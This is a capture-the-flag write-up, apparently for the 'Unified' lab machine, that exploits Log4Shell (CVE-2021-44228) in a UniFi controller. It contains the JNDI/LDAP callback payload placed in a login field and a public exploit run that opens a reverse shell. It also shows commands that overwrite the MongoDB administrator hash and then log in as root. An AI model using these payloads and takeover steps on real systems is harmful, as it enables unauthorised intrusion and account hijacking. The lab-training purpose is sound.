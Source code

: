 # MACHINE - UNIFIED

IP: 10.129.96.149

Type: Linux

---

## OPEN PORTS

```bash
$ nmap -sVC -T4 -Pn -p- {IP}
```

- [1] 22/tcp ssh **OpenSSH 8.2p1**
- [2] 6789/tcp ibm-db2-admin?
- [3] 8080/tcp http-proxy

1. Might be redirecting requests
2. Did not follow redirect to http://{IP}:8443/manage

- [4] 8443/tcp ssl/nagios-nsca **Nagios NSCA**

1. Requested resource was `/manage/account/login?redirect=%2Fmanage`

---

## INVESTING THE SITE

- Opening `http://{IP}:8080/` being redirected to `http://{IP}:8443/manage/account/login?...`
- Found software named **UniFi 6.4.54** (JAVA backend)

> *UniFi* is a community of wireless access points, switches, routers, controller devices, 
> VoIP phones, and access control products. It can be used for the corporate network and 
> also for the home network. An Unifi network controller manages all the equipment in the 
> UNIFI network.

- There is a CVE [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) releated to UniFi
- The vulnerability is a *Log4J Remote Code Execution*

> *CVE-2021-44228*: Apache Log4j2 2.0-beta9 through 2.15.0 JNDI features used in configuration,
> log messages, and parameters do not protect against attacker controlled LDAP and other JNDI 
> releated endpoints. An attacker who can control log messages or log message parameters can 
> execute arbitrary code loaded from LDAP servers when message lookup subtitution is enabled.

- More on: https://www.hackthebox.com/blog/Whats-Going-On-With-Log4j-Exploitation

> *JNDI* (Java Naming and Directory Interface) is the naming service used to register services 
> in distributed contexts and recall them using a mnemonic name. This is a register that 
> maintains the association between a name and an application server service in a data structure.
> JNDI managed objects are stored in binding files. This storage can be based on file systems or 
> LDAP (Lightweight Directory Access Protocol)

> *LDAP* (Lightweight Directory Access Protocol) is a mature, flexible, and well supported 
> standards-based mechanism for interacting with directory servers. It’s often used for 
> authentication and storing information about users, groups, and applications, but an LDAP 
> directory server is a fairly general-purpose data store and can be used in a wide variety 
> of applications. In LDAP all informations are encrypted and transmitted using BER
> (Basic Encoding Rules).

- Interesting port for LDAP are

1. 389/TCP Clear-Text connection
2. 636/TCP Encrypted Connection

---

## LOG4J VULNERABILITY EXPLOIT

- Let's try to use BurpSuite as the middle-man to see requests
- Set up a Manual proxy on localhost:8080
- When given credentials to access this is the request

```
POST /api/login HTTP/1.1
Host: 10.129.149.239:8443
Content-Length: 69
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
Content-Type: application/json; charset=utf-8
Accept: */*
Origin: https://10.129.149.239:8443
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://10.129.149.239:8443/manage/account/login?redirect=ldap
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i
Connection: close

{"username":"admin","password":"admin","remember":false,"strict":true}
```

- We can see that the request is done to `/api/login`
- We can send the request to the Repeater to see how it behaves with different requests
- To exploit the Log4J vulnerability with JNDI we need to put a specific payload

```
${jndi:ldap://{malicious-IP}:{remote-port}/any}
```

> In this case, Log4j will try to execute code named 'any' hosted by 'malicious-IP'
> on port 'remote-port' using the LDAP communiction protocol. If we attempt to use
> this payload and we have a netcat listener up and running we will receive a connection.

- To this end let's put this payload on the `remember` request parameter
- Hence, we forge a new request

```
POST /api/login HTTP/1.1
Host: 10.129.149.239:8443
Content-Length: 69
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
Content-Type: application/json; charset=utf-8
Accept: */*
Origin: https://10.129.149.239:8443
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://10.129.149.239:8443/manage/account/login?redirect=ldap
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i
Connection: close

{
    "username":"admin",
    "password":"admin",
    "remember":"${jndi:ldap://{MyIP}/any}",
    "strict":true
}
```

- We obtain a response

```
HTTP/1.1 400 
vary: Origin
Access-Control-Allow-Origin: https://10.129.149.239:8443
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: Access-Control-Allow-Origin
X-Frame-Options: DENY
Content-Type: application/json;charset=UTF-8
Content-Length: 64
Date: Fri, 19 Apr 2024 08:06:45 GMT
Connection: close

{"meta":{"rc":"error","msg":"api.err.InvalidPayload"},"data":[]}
```

- This shows an error but indeed it is executing the payload
- We can use `tcpdump` to see the requests and responses

```bash
$ sudo tcpdump -i tun0 port 389

10:06:45.345009 IP 10.129.149.239.50242 > 10.10.16.167.ldap: Flags [S]
10:06:45.345093 IP 10.10.16.167.ldap > 10.129.149.239.50242: Flags [R.]
```

- It is trying to connect back to us on the LDAP port showing that it is vulnerable
- There is a repo: https://github.com/puzzlepeaches/Log4jUnifi
- This repository contains a Python exploit for the Log4J vulnerability of UniFi
- As usual let's start a Netcat listener, then execute the exploit

```bash
$ git clone https://github.com/puzzlepeaches/Log4jUnifi
$ cd Log4jUnifi
$ python3 exploit.py -u http://{IP}:8443 -i {MyIP} -p {remote-port}

script /dev/null -c bash
shell>
```

---

## CONNECTION TO THE MONGODB DBMS

- Now that we have a shell inside the system let's list all the running processes

```bash
shell> ps -aux
```

- We can see that there is a running process named `mongo` on port 27117
- MonoDB is a really famous DataBase Management System
- Let's connect to the DBMS

```bash
shell> mongo localhost:27117
mongo> show dbs
mongo> use ace
mongo> show collections
mongo> db.admin.find()

...
"_id" : ObjectId("61ce278f46e0fb0012d47ee4"), "name" : "administrator", 
"email" : "administrator@unified.htb", 
"x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0Pv" \
"Uc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4."
...

```

- The previous is an entry referring the administrator password
- Since we have access to the database, we could change that password
- To do this, we need to create the corresponding SHA-512 Hash

```bash
$ mkpasswd -m sha-512 Password123
$6$/JqfWcsd4dtGIXc6$Cgp2uRUwkcnqG.DKlRbZba72.3FRU3ofeU5HPGenwMXQtnW
Dhe4y6AJFxKCTF/uieloRvqGPI7zydd94fS.C51
```

- Now, we can update the password for the administrator

```bash
mongo> db.admin.update({"_id" : ObjectId("61ce278f46e0fb0012d47ee4")}, \
    {$set:{"x_shadow" : "$6$/JqfWcsd4dtGIXc6$Cgp2uRUwkcnqG.DKlRbZba72.3F" \
    "RU3ofeU5HPGenwMXQtnWDhe4y6AJFxKCTF/uieloRvqGPI7zydd94fS.C51"}});
```

---

## LOGIN AS THE ADMINISTRATOR

- Now that we have changed the password, let go back to the site and login as the admin
- Once we are logged in go to Settings and find the SSH login

```
USERNAME: root
PASSWORD: NotACrackablePassword4U2022
```

- Finally, use SSH to login

```bash
$ ssh root@{IP} -p 22
$ cat /root/root.txt
```
